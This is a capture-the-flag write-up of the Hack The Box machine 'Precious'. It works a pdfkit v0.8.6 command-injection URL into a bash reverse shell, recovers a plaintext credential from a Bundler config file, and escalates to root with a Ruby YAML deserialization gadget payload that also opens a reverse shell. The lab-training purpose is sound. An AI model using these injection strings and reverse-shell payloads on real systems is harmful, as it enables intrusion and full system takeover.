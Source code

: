 ```yaml
---
layout: post
title: HTB - Precious
tags: [Linux, HTB, HTB-Easy, Ruby, pdfkit]
---
```


## Summary

![Box Info](/assets/img/precious/precious.png)

## Enumeration

Starting with a nmap full port scan to discover open ports:\
`sudo nmap -sC -sV -Pn -On enum/precious.nmap -v -p- 10.10.11.189`

Open ports:

- 22 - SSH
- 80 - Web Server

### Web application

The webapp allows to convert HTML pages into pdf files and the URL is controlled by the user.

![Web App](/assets/img/precious/precious-web.png)

I tried to connect to my host to see what kind of HTTP request the server was making:

```bash
$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54878
GET /aaa HTTP/1.1
Host: 10.10.16.19
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

From the User-Agent header I know that **wkhtmltopdf** was used but I cannot find anything useful to exploit this version, so, I tried to convert a page to see the result.
Checking the dev console on the generated PDF page I noted a log which contains the software and the version used (pdfkit v0.8.6)

![Pdfkit](/assets/img/precious/pdf-kit-version.png)

## Gain access

### PdfKit RCE

PdfKit v0.8.6 is vulnerable to RCE ([Vuln Description](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)) if the URL contains a query parameter named `name` which contains a URL encoded char and a query string substitution shell command.

I used this url in the webapp input and I got back a reverse shell

```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.19/9000 0>&1"`'}
```

```bash
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 46934
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$
```

The shell was executed as `ruby` user. So I needed to escalate my privileges.
I checked the `/etc/passwd` file:

```bash
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

## Privilege Escalation to henry

The target user is `henry`. I checked services executed by this user but I didn't found anything useful.\
I started searching for credentials and in ruby's home there was a file in `.bundle/` with `henry` credentials.

```bash
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Use this credentials to login in SSH as henry and grab user flag

## Privilege Escalation to root

User henry can execute a specific ruby command as root:

```bash
$ sudo -l
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

The file `update_dependecies.rb` read a yaml file in the pwd called dependencies.yml (an example is stored in /opt/sample)

Ruby YAML module load function is vulnerable to RCE: [Vuln Description + PoC](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

Use this input in dependecies.yml to obtain a reverse shell as root:

```yaml
---
- !ruby/object:Gem::Installer
	i: x
- !ruby/object:Gem::SpecFetcher
	i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: "bash -c 'bash -i >& /dev/tcp/<myip>/9000 0>&1'"
method_id: :resolve
```

```bash
# On the box
$ sudo ruby /opt/update_dependencies.rb
...
# On my host
$ nc -nvlp 9000
listening on [any] 9000 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.11.189] 54586
root@precious:/root#
```

Now we can grab root flag!
